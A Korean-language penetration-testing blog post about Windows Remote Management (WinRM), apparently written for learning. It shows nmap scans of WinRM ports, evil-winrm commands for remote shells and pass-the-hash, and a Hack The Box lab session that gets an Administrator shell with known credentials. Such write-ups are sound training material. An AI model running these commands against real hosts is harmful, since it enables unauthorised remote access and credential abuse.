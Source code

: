 ```yaml
---
title: Windows Remote Management (WinRM)
categories: [Pentest, Windows]
tags: [WinRM, wsman, Windows, Evil-WinRM]
image:
    path: /assets/image_post/20240213174835.png
---
```


Windows Remote Management (WinRM)이란 MS Windows에서 원격 관리를 위한 서비스이다. 모든 컴퓨터 장치와 관리 데이터를 원격으로 교환하기 위한 WS-Management 프로토콜을 MS에서 구현한 것이다.

WinRM 2.0에서 기본적으로 사용하는 http port는 5985, https는 5986이다. 해당 기능을 사용하고 있는 서버에 nmap으로 조회 시 아래와 같은 결과를 얻을 수 있다. wsman은 WS-Management을 뜻한다.

*※ 추가: 47001 port도 주로 사용되는 port 중 하나이다.*
``` bash
┌──(root㉿kali)-[/home/user]
└─# nmap 10.129.16.102 -p 5985
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-13 02:50 EST
Nmap scan report for 10.129.16.102
Host is up (0.31s latency).

PORT     STATE SERVICE
5985/tcp open  wsman
```
nmap의 옵션을 변경하여 조회 시 아래와 같이 나온다. `wsman`란 단어는 보이지 않고 `Microsoft HTTPAPI httpd 2.0`란 단어를 확인할 수 있다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# nmap -sC -sV 10.129.16.102 -p 5985
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-13 02:43 EST
Nmap scan report for 10.129.16.102
Host is up (0.26s latency).

PORT     STATE SERVICE VERSION
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

대부분의 기능이 그렇지만, 편의성이 좋다는 것은 공격에 사용될 수 있다는 것을 뜻한다. WinRM 관련해 kali linux에 탑재된 `evil-winrm`을 사용하여 원격 쉘을 획득 할 수 있다. 기본적인 사용 방법은 아래와 같다.

``` bash
evil-winrm -i <target-ip> -u username -p password
# -P: Specifify port
evil-winrm -i <target-ip> -P 5986 -u username -p password

# Pass The Hash (-H)
evil-winrm -i <target-ip> -P 5986 -u username -H 0e0363213e37b94221497260b0bcb4fc

# PowerShell Local Path (-s)
evil-winrm -i <target-ip> -u username -p password -s /opt/scripts

# SSL enabled (-S)
evil-winrm -i <target-ip> -u username -p password -S
```

아래의 경우 hack the box의 responder 문제를 풀던 중에 시도한 내역이다. id와 pw를 알고 있어 쉽게 원격 쉘 획득에 성공했다.
``` bash
┌──(root㉿kali)-[/home/user]
└─# evil-winrm -i 10.129.16.102 -u Administrator -p badminton

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
responder\administrator
```
